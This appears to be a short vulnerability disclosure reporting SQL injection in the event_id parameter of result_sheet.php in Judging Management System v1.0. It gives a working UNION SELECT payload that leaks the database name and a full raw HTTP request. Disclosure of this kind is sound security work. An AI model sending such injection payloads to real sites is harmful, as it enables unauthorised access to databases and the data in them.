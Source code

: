 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: M1st

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/result_sheet.php?event_id=

Vulnerability location: /php-jms/result_sheet.php?event_id=, event_id

dbname =jms_db

[+] Payload: /php-jms/result_sheet.php?event_id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11--+ // Leak place ---> event_id

```sql
GET /php-jms/result_sheet.php?event_id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206374841-bfdd3e26-55b7-46cf-81f8-711231e5885b.png)
